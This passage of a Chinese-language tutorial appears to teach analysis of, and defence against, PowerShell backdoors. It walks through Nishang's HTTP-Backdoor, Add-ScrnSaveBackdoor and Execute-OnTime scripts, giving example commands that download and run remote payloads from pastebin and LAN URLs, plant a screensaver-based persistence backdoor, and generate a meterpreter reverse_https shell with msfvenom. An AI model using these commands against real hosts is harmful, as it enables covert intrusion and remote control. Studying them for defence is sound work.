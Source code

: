 使用该方法不需要重启系统，也不会在磁盘中留下DLL文件，不需要修改注册表。因此被攻击，是很难检测到的。所以日常网络维护中，需要对Powershell严格监视，并启用约束语言模式，对Hook PasswordChangeNotify进行防御。

### Nishang下的脚本后门分析与防范

[Nishang](https://github.com/samratashok/nishang)是基于Powershell的渗透测试攻击。

#### HTTP-Backdoor脚本

该脚本可以帮助攻击者在目标主机上下载和执行Powershell脚本，接收来自第三方网站的指令，在内存中执行Powershell脚本，其语法如下：

```powershell
HTTP-Backdoor [-CheckURL] <String> [-PayloadURL] <String> [[-Arguments] <String>]
    [-MagicString] <String> [-StopString] <String> [<CommonParameters>]
# 例如
HTTP-Backdoor -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -MagicString start 123 -StopString stopthig
```

* -CheckURL：给出一个URL地址。如果地址存在，MagicString中的值就会执行Payload，下载并运行攻击者的脚本
* -PayloadURL：给出需要下载的Powershell脚本的地址
* -StopString：判断是否存在CheckURL返回的字符串，如果存在则停止执行

#### Add-ScrnSaveBackdoor脚本

该脚本可以帮助攻击者利用Windows的屏幕保护程序来安插一个隐藏的后门，具体如下：

```powershell
Add-ScrnSaveBackdoor [[-Payload] <String>] [[-PayloadURL] <String>] [[-Arguments] <String>]
    [[-NewScreenSaver] <String>] [<CommonParameters>]
# 例如
Add-ScrnSaveBackdoor -Payload "powershell.exe -ep Bypass -noprofile -noexit -c Get-Process" # 执行payload
Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/Powerpreter.psm1 -Arguments HTTP-Backdoor http://pastebin.com/raw.php?i=jqP2vJ3x http://pastebin.com/raw.php?i=Zhyf8rwh start123 stopthis # 在powershell中执行一个HTTP-Backdoor脚本
Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/code_exec.ps1
```

* -PayloadURL：指定需要下载的脚本的地址
* -Arguments：指定需要执行的函数及相关参数

攻击者也可以使用msfvenom生成一个PowerShell，然后执行命令：

```powershell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.254.226 -f powershell
```

#### Execute-OnTime

该脚本用于在目标主机上指定Powershell脚本的执行时间，与HTTP-Backdoor脚本的使用方法相似，只不过增加了定时功能，其语法如下：

```powershell
Execute-OnTime [-PayloadURL] <String> [[-Arguments] <String>] [-time] <String> [-CheckURL]
    <String> [-StopString] <String> [<CommonParameters>]
# 例如
Execute-OnTime -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -Time hh:mm -CheckURL http://pastebin.com/raw.php?i=Zhyf8rwh -StopString stoppayload
```
